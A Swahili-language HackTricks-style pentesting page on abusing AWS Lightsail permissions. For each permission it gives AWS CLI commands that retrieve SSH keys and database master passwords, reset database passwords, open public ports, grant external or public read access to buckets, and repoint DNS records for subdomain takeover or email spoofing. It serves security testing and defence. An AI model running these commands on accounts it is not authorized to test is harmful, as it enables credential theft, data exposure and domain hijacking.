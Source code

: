 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Kwa habari zaidi kuhusu Lightsail, angalia:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Ni muhimu kutambua kwamba Lightsail **haitumii IAM roles zinazomilikiwa na mtumiaji** bali kwa akaunti inayosimamiwa na AWS, hivyo huwezi kutumia huduma hii kupata privesc. Hata hivyo, **data nyeti** kama code, API keys na taarifa za database zinaweza kupatikana katika huduma hii.

### `lightsail:DownloadDefaultKeyPair`

Ruhusa hii itakuwezesha kupata SSH keys za kuingia kwenye instances:
```
aws lightsail download-default-key-pair
```
**Athari Inayoweza Kutokea:** Pata taarifa nyeti ndani ya instances.

### `lightsail:GetInstanceAccessDetails`

Ruhusa hii itakuwezesha kuunda SSH keys ili kupata access kwa instances:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Athari Inayowezekana:** Pata taarifa nyeti ndani ya instances.

### `lightsail:CreateBucketAccessKey`

Ruhusa hii itakuwezesha kupata ufunguo wa kufikia bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Athari Inayoweza Kutokea:** Tafuta taarifa nyeti ndani ya bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ruhusa hii itakuwezesha kupata credentials za kufikia database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Athari Inayoweza Kutokea:** Pata taarifa nyeti ndani ya database.

### `lightsail:UpdateRelationalDatabase`

Ruhusa hii itakuwezesha kubadilisha password ili kupata access kwenye database:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Ikiwa database si ya umma, unaweza pia kuifanya iwe ya umma kwa ruhusa hizi.
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Athari Inayoweza Kutokea:** Kupata taarifa nyeti ndani ya hifadhidata.

### `lightsail:OpenInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa umma kupitia Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Athari Inayowezekana:** Ufikiaji wa ports nyeti.

### `lightsail:PutInstancePublicPorts`

Ruhusa hii inaruhusu kufungua ports kwa Internet. Kumbuka kwamba wito huo utafunga port yoyote iliyofunguliwa ambayo haijatajwa ndani yake.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Athari Inayoweza Kutokea:** Ufikiaji wa ports nyeti.

### `lightsail:SetResourceAccessForBucket`

Ruhusa hii inaruhusu kumpa instance ufikiaji wa bucket bila credentials za ziada.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Athari Inayoweza Kutokea:** Ufikiaji mpya unaowezekana kwa buckets zenye taarifa nyeti.

### `lightsail:UpdateBucket`

Kwa ruhusa hii mshambulizi anaweza kumpa akaunti yake ya AWS ruhusa ya kusoma kwa buckets au hata kufanya buckets ziwe za umma kwa wote:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Athari Inayoweza Kutokea:** Ufikiaji mpya unaowezekana wa buckets zenye taarifa nyeti.

### `lightsail:UpdateContainerService`

Kwa ruhusa hizi, mshambuliaji anaweza kutoa ufikiaji kwa ECRs binafsi kupitia containers service.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potential Impact:** Kupata taarifa nyeti kutoka kwa ECR ya kibinafsi

### `lightsail:CreateDomainEntry`

Mshambulizi aliye na ruhusa hii anaweza kuunda subdomain na kuiweka kuelekea anwani yake ya IP (subdomain takeover), au kutengeneza rekodi ya SPF inayomruhusu ku-spoof barua pepe kutoka kwa domain, au hata kuweka domain kuu kwenye anwani yake ya IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potential Impact:** Kuchukua udhibiti wa domain

### `lightsail:UpdateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye IP yake mwenyewe (subdomain takeover), au kutengeneza rekodi ya SPF inayomruhusu ku-spoof barua pepe kutoka kwa domain, au hata kuweka domain kuu kwenye IP yake mwenyewe.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Athari Inayoweza Kutokea:** Kuchukua udhibiti wa kikoa

{{#include ../../../../banners/hacktricks-training.md}}
